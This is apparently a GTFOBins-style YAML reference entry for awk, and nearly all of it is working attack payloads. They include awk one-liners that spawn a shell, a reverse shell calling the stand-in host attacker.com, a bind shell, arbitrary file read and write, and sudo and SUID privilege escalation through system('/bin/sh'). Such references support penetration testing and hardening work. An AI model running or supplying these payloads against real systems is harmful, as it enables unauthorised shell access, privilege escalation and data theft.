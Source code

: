 ```yaml
---
functions:
  shell:
    - code: awk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        awk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./awk '//' "$LFILE"
  sudo:
    - code: sudo awk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./awk 'BEGIN {system("/bin/sh")}'
---
```

